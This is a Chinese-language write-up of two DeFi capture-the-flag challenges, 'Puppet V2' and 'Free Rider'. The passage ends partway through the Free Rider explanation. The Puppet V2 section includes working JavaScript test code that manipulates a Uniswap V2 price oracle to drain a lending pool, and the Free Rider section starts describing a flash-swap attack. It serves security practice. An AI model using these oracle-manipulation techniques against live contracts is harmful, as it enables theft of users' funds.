 <hr />

# 9. Puppet - V2

解决思路：

这里是Uniswap V2，与之前的区别在于使用了`UniswapRouter`进行了中继，所以我们不会再直接与`pair`进行交互，而是依靠`Router`。

思路还是一样的，先将`token`转变为`weth`，并将`eth`转变为`weth`以完成质押存入`mint weth`（否则数量不够）。这一题反而没有单笔交易内完成的相关限制，有点奇怪。

具体代码如下：

```javascript
it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        await token.connect(player).approve(uniswapRouter.address,PLAYER_INITIAL_TOKEN_BALANCE);
        console.log("before swapping, token : "+await token.balanceOf(player.address));
        console.log("before swapping, weth : "+await weth.balanceOf(player.address));
        await uniswapRouter.connect(player).swapExactTokensForTokens(
            PLAYER_INITIAL_TOKEN_BALANCE,
            1,
            [
                token.address,
                weth.address
            ],
            player.address,
            (await ethers.provider.getBlock('latest')).timestamp * 3,
        );
        console.log("after swapping, token : "+await token.balanceOf(player.address));
        console.log("after swapping, weth : "+await weth.balanceOf(player.address));
        const stakeAmount = await lendingPool.calculateDepositOfWETHRequired(POOL_INITIAL_TOKEN_BALANCE);
        const beforeDeposit = await weth.balanceOf(player.address);
        const valueToDeposit = BigNumber(stakeAmount - beforeDeposit);

        await weth.connect(player).deposit({value : valueToDeposit.toString()});
        console.log("current : "+ await weth.balanceOf(player.address));
        await weth.connect(player).approve(lendingPool.address,stakeAmount);
        await lendingPool.connect(player).borrow(POOL_INITIAL_TOKEN_BALANCE);
    });
```

<hr />

# 10. Free Rider

解决思路：

进入点类似于**重入攻击**，只要凑齐`15`ETH，就可以通过`buyMany`的漏洞批量完成了。然而我们起始只有0.1个，该怎么办？这也呼应了题目中的`If only you could get free ETH, at least for an instant. `

一开始疑惑了好一会，突然明白了，因为部署了`Uniswap V2`，所以我们可以利用`FlashLoan（Flash Swap）`实现一次性攻击。

其实这里面漏洞有两个:
